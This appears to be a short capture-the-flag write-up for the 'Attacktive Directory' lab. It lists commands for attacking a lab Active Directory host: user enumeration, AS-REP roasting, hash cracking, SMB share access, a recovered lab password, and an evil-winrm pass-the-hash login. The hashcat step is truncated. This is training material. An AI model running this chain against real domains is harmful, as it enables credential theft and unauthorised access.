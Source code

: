 # Attacktive Directory

### Enumeration

```bash
enum4linux 10.10.176.12
```

<figure><img src="../../../../../.gitbook/assets/image (8) (1) (1).png" alt=""><figcaption><p>scanning port 139/445</p></figcaption></figure>

kerbrute

```powershell
 ./kerbrute_linux_amd64 userenum -d spookysec.local --dc 10.10.176.12  userlist.txt 
```

<figure><img src="../../../../../.gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

impacket-GetNPUsers

```bash
impacket-GetNPUsers spookysec.local/svc-admin -dc-ip 10.10.176.12
```

<figure><img src="../../../../../.gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

hashcat

```
hashcat -m 18
```

<figure><img src="../../../../../.gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### smbclient

```
smbclient -L //10.10.176.12  -U "svc-admin"
```

<figure><img src="../../../../../.gitbook/assets/image (5) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
smb://ip/backup
```

<figure><img src="../../../../../.gitbook/assets/image (6) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
backup@spookysec.local:backup2517860
{% endhint %}



<figure><img src="../../../../../.gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



```bash
evil-winrm -u <user> -H "hash" -i ip
```

<figure><img src="../../../../../.gitbook/assets/image (8) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

